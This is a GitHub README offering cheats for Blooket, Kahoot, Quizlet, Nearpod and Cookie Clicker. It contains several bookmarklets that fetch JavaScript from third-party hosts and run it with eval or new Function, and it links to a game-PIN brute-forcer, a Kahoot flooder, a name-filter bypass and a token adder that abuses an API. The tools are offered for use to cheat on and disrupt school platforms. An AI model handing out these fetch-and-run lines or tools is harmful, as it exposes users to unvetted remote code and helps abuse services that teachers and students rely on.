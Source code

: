 # Blooket Hacks and more!
These are hacks for blooket. There are hacks such as give tokens for buying blooks (sadly only 500 per day), and cheats in-game like infinite gold in tower of doom or gold rush! I took cheats from another github repo, revised the code a bit. (There are other hacks if you scroll down)

**If anything isn't working please make a issue after checking with the FAQ: https://github.com/helloieat/Blooket-Hacks/issues**

**scroll down for video tutorial on how to make bookmarklets**

## Mod Menu:
Mod Menu for blooket (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://ieatppplyum.github.io/blooket-hack/index.js').then(r=>r.text()).then(t=>(new Function(t))())
```

To make the mod menu appear click on "Add Injectable", And paste the URLS in that are listed below.

Injectable URL 1: `https://helloieat.github.io/injectables/myrayuo.js` 

Injectable URL 2: `https://helloieat.github.io/injectables/is%20lit.js` 

## Bookmarklets:
```
Blooket hacks can be found here https://github.com/helloieat/blooket-hack-1
```

Bookmarklet tutorial:
https://streamable.com/t4u7i7

1. Make a bookmark (the star on the right side of the url bar if you are using chrome)
2. Click on more at the bottom left corner
3. Delete everything in the url box
4. Type `javascript:`
5. Paste in the code

## Blooket BruteForcer:
BLOOKET FIXED THE JOIN API SO IT ONLY GUESSES GAME PINS. (its super accurate though, only when a lot of games are being hosted).
```
It can be found here https://replit.com/@mikeylmao/Blooket-pass-finder
```

## 24hr Token Adder:
This will automatically gives your account 500 tokens and 300 exp daily
```
It can be found here https://replit.com/@mikeylmao/24hr-token-adder
```

# Other Hacks (Extra)
Mostly websites..

# Kahoot Hacks:
```
[Kaheet] https://pxtrez.com/
[Flooder] https://kaspammer.glitch.me/
[Flooder V2] https://replit.com/@mikeylmao/Kahoot-flood-2
[Kahoot Client] https://a8998w89329w09e09we.herokuapp.com/
[Kahoot Client V2] https://kahot.glitch.me/
```

## Bookmarklets (Click on these before you enter a games ID)

Kahoot Smasher/Flooder (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://thatfrueddued.github.io/kahoot-smasher/Kahoot.js').then(function(response){response.text().then(function(text){eval(text);});});
```

Bad Name Filter Bypass (Drag the link below to your bookmarks bar):
```
javascript:fetch('https://thatfrueddued.github.io/kahoot-smasher/BadNameFilterBypass.js').then(function(response){response.text().then(function(text){eval(text);});});
```

Kahoot Correct Answers (Drag the link below to your bookmarks bar):
```
javascript:fetch("https://raw.githubusercontent.com/pxtrez/kaheet/main/dist/bundle.js" ).then((r) => r.text().then((t) => eval(t)));
```

# Quizlet Hacks:
Works for micromatch and other gamemodes (Drag the link below to your bookmarks bar):
```
javascript:(function()%7B(function() %7Blet x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fquizlet%40master%2Findex.js"%3Bx.onload %3D function () %7B x.remove()%3B %7D%3Bdocument.body.appendChild(x)%3B%7D)()%7D)()
```

# Cookie Clicker Hacks:
Shows a mod menu on your screen

Mod Menu V1 (Drag the link below to your bookmarks bar):
```
javascript:(function(){Game.LoadMod('https://rawgit.com/Giovani-Freitag/cookie-clicker-farm/master/cookieClickerFarm.js');})();
```

Mod Menu V2 (Drag the link below to your bookmarks bar):
```
javascript:Game.OpenSesame()
```
Website to play Cookie Clicker if it's blocked: https://ozh.github.io/cookieclicker/

# Nearpod Hacks:
Just finds codes

Nearpod code finder
```
https://replit.com/@milestashaun/nearpod-code-finder
```

# Walmart Version Of Google Classroom:
Sign up and add people to it

Code: rmxIWa
```
https://our-gclassroom.netlify.app/
```

#### Happy hacking :)

